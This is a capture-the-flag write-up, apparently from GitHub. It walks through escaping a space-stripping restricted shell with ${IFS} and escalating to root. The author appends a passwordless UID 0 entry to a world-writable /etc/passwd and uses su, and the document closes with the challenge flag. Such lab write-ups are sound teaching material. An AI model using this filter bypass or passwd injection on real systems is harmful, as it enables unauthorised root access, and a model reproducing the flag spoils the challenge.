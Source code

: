 # The Space Between Us

## Description
Author: @JohnHammond#6971

I've never felt this close to a character before. I hope the feeling is mutual...

Escalate your privileges and retrieve the flag out of root's home directory.

Press the Start button on the top-right to begin this challenge. 

## Solve
When we connect to the service we are able to run commands as `user` but our spaces are stripped. I figured out a way around this by placing `${IFS}` instead of a space. The `$IFS` variable in bash stands for internal field seperator and is used as a delimiter to split words. The default value is `<space><tab><newline>`.

First I checked the files in the home directroy:
```bash
user@challenge:~$ ls${IFS}-la
total 28
dr-xr-xr-x 1 user user 4096 Dec 11 19:23 .
drwxr-xr-x 1 root root 4096 Dec 11 19:23 ..
-rw-r--r-- 1 user user  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 user user 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 user user  807 Mar 27  2022 .profile
-r-xr-xr-x 1 root root 1885 Dec 11 19:22 .server.py
-rw-r--r-- 1 root root  174 Dec 11 19:22 README.md
```

The `README.md` must have something interesting. The [`.server.py`](./.server.py) file is what is running to give us this "shell". There is nothing interesting in here except for it strips any space, tab, or newline from our input.
```bash
user@challenge:~$ cat${IFS}README.md
Your objective to escalate your privileges
and retrieve the flag in /root/flag.txt.

If you look around the filesystem, you may
find some odd permissions you can leverage :)
```

After this note I started searching around the filesystem for a while and wasn't able to find anything. I came back to the challenge and realized there was a very simple misonfiguration, the `/etc/passwd` file is writeable!
```bash
user@challenge:~$ ls${IFS}-la${IFS}/etc/passwd
-rw-rw-rw- 1 root root 993 Dec 17 23:48 /etc/passwd

user@challenge:~$ cat${IFS}/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
user:x:1000:1000::/home/user:/bin/sh
```

Since I couldn't write directly to `/etc/passwd` I had to make a copy, edit the copy, and then replace the original file. When creating the new user I specified it to have no password so we can easily execute commands.
```bash
user@challenge:~$ cp${IFS}/etc/passwd${IFS}/tmp/passwd

user@challenge:~$ echo${IFS}"notroot::0:0:root:/root:/bin/bash">>/tmp/passwd

user@challenge:~$ cat${IFS}/tmp/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
user:x:1000:1000::/home/user:/bin/sh
notroot::0:0:root:/root:/bin/bash

user@challenge:~$ cp${IFS}/tmp/passwd${IFS}/etc/passwd

user@challenge:~$ cat${IFS}/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
user:x:1000:1000::/home/user:/bin/sh
notroot::0:0:root:/root:/bin/bash
```

Now that the new user has been created we can use `su` to execute commands. Since the python scripts is just using `subprocess.Popen()` to run commands and return the output, we won't have a real shell and will have to use the `-c` option to run commands.

```bash
user@challenge:~$ su${IFS}notroot${IFS}-c${IFS}'id'
uid=0(root) gid=0(root) groups=0(root)

user@challenge:~$ su${IFS}notroot${IFS}-c${IFS}'cat${IFS}/root/flag.txt'
flag{59af40c07bc6f02b457aa4c15543da2d}
```

## Flag
```
flag{59af40c07bc6f02b457aa4c15543da2d}
```